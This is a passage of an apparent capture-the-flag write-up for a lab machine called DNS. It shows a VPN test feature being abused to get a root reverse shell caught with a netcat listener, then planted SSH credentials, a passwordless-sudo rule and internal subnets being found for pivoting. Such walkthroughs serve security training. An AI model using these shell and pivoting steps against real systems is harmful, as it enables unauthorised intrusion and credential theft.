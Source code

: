 And `http://127.0.0.1/script.sh`:

```
#!/bin/bash
sudo openvpn 123.ovpn
```

So it seems that the `123.ovpn` file contains a reverse shell payload.

We can just spawn a netcat on the box and trigger the `Test VPN` function to get a shell:

```
dave@ubuntu:~$ nc -lvnp 2323
Listening on [0.0.0.0] (family 0, port 2323)
Connection from [192.168.122.4] port 2323 [tcp/*] accepted (family 2, sport 60596)
bash: cannot set terminal process group (1131): Inappropriate ioctl for device
bash: no job control in this shell
root@DNS:/var/www/html# id;hostname
id;hostname
uid=0(root) gid=0(root) groups=0(root)
DNS
root@DNS:/var/www/html#
```

User flag found in Dave's directory:

```
root@DNS:/home/dave# cat user.txt
cat user.txt
a4947...
```

There's also SSH credentials in there:

```
root@DNS:/home/dave# cat ssh
cat ssh
dave
dav3gerous567
```

### Priv Esc

In the web directories, there's a file that reveals two additional network segments:
- 192.168.1.0/24
- 192.168.5.0/24

```
root@DNS:/var/www/DNS# ls -la
total 20
drwxrwxr-x 3 root root 4096 Jul 17 12:46 .
drwxr-xr-x 4 root root 4096 Jul 17 12:47 ..
drwxrwxr-x 2 root root 4096 Jul 17 10:34 desktop
-rw-rw-r-- 1 root root  214 Jul 17 10:37 interfaces
-rw-rw-r-- 1 root root   27 Jul 17 10:35 visudo

root@DNS:/var/www/DNS# cat visudo
www-data ALL=NOPASSWD: ALL

root@DNS:/var/www/DNS# cat interfaces
auto ens3
iface ens3 inet static
address 192.168.122.4
netmask 255.255.255.0
up route add -net 192.168.5.0 netmask 255.255.255.0 gw 192.168.122.5
up route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.28
```
